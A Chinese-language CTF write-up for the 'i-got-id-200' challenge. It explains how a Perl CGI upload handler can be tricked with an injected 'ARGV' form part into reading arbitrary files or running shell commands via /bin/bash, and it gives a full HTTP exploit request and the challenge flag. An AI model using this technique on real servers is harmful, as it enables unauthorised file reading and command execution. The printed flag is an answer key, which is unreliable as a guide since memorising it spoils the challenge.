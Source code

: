# i-got-id-200

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=067955d8-5edc-41b7-90e2-5454d999786c_2&task_category_id=3)

好家伙还有perl。

网站打开只有三个地方能点。Hello World部分是静态的，不太可能有漏洞。form部分会把输入的内容套上一个模版原封不动输出，而且还有xss漏洞。但是是自我xss，缺少更详细的信息完全没用。最后一个就有意思了，Files，经典文件上传。

其实也不算经典，因为网页是用perl语言写的，从.pl后缀名看出。这回不只是知识盲区了，perl我根本就没见过。所以我找了[wp](https://blog.csdn.net/hxhxhxhxx/article/details/107904281)，没事下亿次我就能做出来了。

需要知道的知识是perl语言里的[ARGV](https://www.cnblogs.com/f-ck-need-u/p/9557041.html)。@ARGV表示命令行参数数组，比如你在命令行执行perl脚本。

- ./test.plx a b c

那么@ARGV这个数组里就会依次存储a，b，c，拿python类比就是@ARGV=['a','b','c']。知道ARGV还不够，大佬们甚至在看到perl文件上传点的时候就猜出了后台代码。

```perl
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
} 
```

更离谱的是猜对了。来了解一下perl cgi相关函数的作用。

- param
    > 用于获取传入的参数(get与post方法)，像：cgi.psp?a=1&b=2，来取得并处理。可以使用Dump方法将具体的参数打印到页面上

- upload
    > 用于处理文件上传的功能函数，需要为其传入'form'表单中所定义的'\<input type="file" name="alertsfile" />'，'name'的值

举个自己理解的例子。

- Content-Disposition: form-data; name="file"; filename="0.png"
<Br>Content-Type: image/png

假如文件上传时上传了一个叫0.png的图片，那么param( 'file' )得到的就是filename里面的内容。<$file>获取filename文件句柄的内容。[<>](https://www.cnblogs.com/f-ck-need-u/p/9511892.html)是perl里面的一个操作符。正常来说会把上传的文件内容原封不动输出上来。

如果我们抓包把filename这个字段去除，$file里面会是什么呢？比如我们随便传个图片，抓包后改成下面这样。

![argv](../../images/argv.png)

因为图片内容太长了，太难删了，所以在上面再加一个------WebKitFormBoundaryrn2mnXAmOE7A8hW1也不是不行，反正只会读取一个。只是这个新增的没有filename，内容为ARGV。根据我的猜测，现在$file里面就是ARGV了。ARGV的句柄上面提到过，是传入的参数。如果这时我们在get传入想要读取的文件，服务器就会原封不动地打印出来。想执行命令也是可以的，毕竟linux一切皆文件，/bin/bash同理。

![command](../../images/execute_command.png)

%20是空格，-c指定要执行的命令，后面再传入的参数会被当作是要执行的命令的参数，但是分割要用\${IFS}。IFS一般代表空格，\${}读取变量的值，也就是打出空格。｜是管道运算符，用于将命令的执行结果劫持到当前网页，利用Perl open()函数打开的管道。如果不劫持是不会有输出的，因为/bin/bash的执行结果不算文件，会被放在缓冲区里。管道符可以将输出重定向到任意位置，这里定向到open打开的管道，也就是当前网页。读取flag的payload如下:

```
POST /cgi-bin/file.pl?cat+/flag HTTP/1.1
Host: 3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81
Content-Length: 2020
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymleITpyHyaAWDDND
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://3911f312-3396-421b-9136-a37835f4d9a2.node4.buuoj.cn:81/cgi-bin/file.pl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __gads=ID=f00405ef7dd07c2b-22e4cea8d3d90015:T=1673138658:RT=1673138658:S=ALNI_MaIBeJLfEQrPtxHvF5d_RvawAx58A; __gpi=UID=00000926669aa6ee:T=1673138658:RT=1673138658:S=ALNI_MaoW9zXWbCCtVgtccyGDCJIpcPeew
Connection: close

------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="file";

ARGV
------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="file"; filename="enc.py"
Content-Type: text/x-python-script

whatever
------WebKitFormBoundarymleITpyHyaAWDDND
Content-Disposition: form-data; name="Submit!"

Submit!
------WebKitFormBoundarymleITpyHyaAWDDND--
```

## Flag
  > cyberpeace{c610a0672df6b2e0a7d47ec186b5c0ac}